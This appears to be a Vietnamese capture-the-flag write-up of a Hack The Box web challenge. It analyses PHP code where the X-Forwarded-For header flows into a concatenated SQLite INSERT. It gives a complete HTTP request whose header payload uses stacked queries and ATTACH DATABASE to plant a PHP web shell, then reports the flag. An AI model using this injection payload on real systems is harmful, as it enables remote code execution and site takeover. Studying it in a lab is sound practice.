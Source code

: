 ```

```


ở đây được khởi tạo một class với method getSubscriberIP sẽ lấy địa chỉ IP qua `X-Forwarded-For` hoặc địa chỉ ip thật của người dùng nếu không tồn tại header này.

Thêm một method nữa là subscribe sẽ nhận đối số là email sau đó khởi tại ip_address bằng việc gọi method `getSubscriberIP` sau đó gọi đến method `subscribeUser($ip_address, $email)`

```
public function subscribeUser($ip_address, $email)
    {
        return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
    }
```


Có thể thấy ở đây có thể bị sqli bằng việc cộng chuỗi, nhưng để ý vị trí của flag


```
# Copy flag
RUN RND=$(echo $RANDOM | md5sum | head -c 15) && \
	echo "HTB{f4k3_fl4g_f0r_t3st1ng}" > /flag_${RND}.txt
```

Vị trí của flag nằm ở /root cho nên mục tiêu của ta là RCE -> may thay vẫn có payload stack query của sqlite

Nguồn payload : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database


### Exploit local server + real server

Bởi vì docker build dùng bản php7 lỗi nên không test local được nên ta exploit server luôn
```
POST /subscribe HTTP/1.1
Host: 83.136.249.33:39389
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
X-Forwarded-For: lmaolmao','lmao@gmail.com');ATTACH DATABASE '/www/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");-- 
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=lmao%40gmail.com
```

![image](https://hackmd.io/_uploads/BkxveS29C.png)


flag: `HTB{inj3ct3d_th3_in3vit4bl3_tru7h}`


Note : Ngoài ra ta có thể bypass `if (empty($email) || !filter_var($email, FILTER_VALIDATE_EMAIL)) {
            header('Location: /?success=false&msg=Please submit a valild email address!');
            exit;
        }` để thực hiện SQLI cơ bản theo bài
